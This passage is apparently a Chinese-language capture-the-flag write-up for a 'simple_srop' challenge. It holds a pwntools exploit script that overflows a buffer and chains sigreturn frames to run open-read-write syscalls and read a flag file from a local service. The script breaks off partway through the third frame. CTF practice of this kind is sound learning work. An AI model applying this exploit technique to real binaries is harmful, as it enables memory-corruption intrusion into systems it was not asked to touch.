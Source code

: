 ## simple_srop

> srop+orw 注意一下每个指令之间执行的间距就可以了

```python
from pwn import *
import time
context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']


file_name = "./vuln"
url = "127.0.0.1"
port = 53647


# elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b main")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
bss = 0x404060+0x100
bss_addr = p64(bss)
ret_addr = p64(0x40101a)
sigreturn_syscall = p64(0x401296)
syscall = 0x40129D
#调用read在bss段部署payload
sigFrame=SigreturnFrame()
sigFrame.rax=0
sigFrame.rdi=0
sigFrame.rsi=bss
sigFrame.rdx=0x700
# 加0x8是因为这个位置放./flag字符串
sigFrame.rsp = bss+0x8
sigFrame.rip=syscall
payload = b"a"*0x28 + sigreturn_syscall + bytes(sigFrame)

print("bss段:",hex(bss))
sd(payload)
# 第二次构造 orw
sigFrame2=SigreturnFrame()
sigFrame2.rax=2
# ./flag
sigFrame2.rdi=bss
sigFrame2.rsi=0
sigFrame2.rdx=0
# 264是调试出来的
sigFrame2.rsp = bss+0x108
sigFrame2.rip=syscall

# read函数
sigFrame3=SigreturnFrame()
```
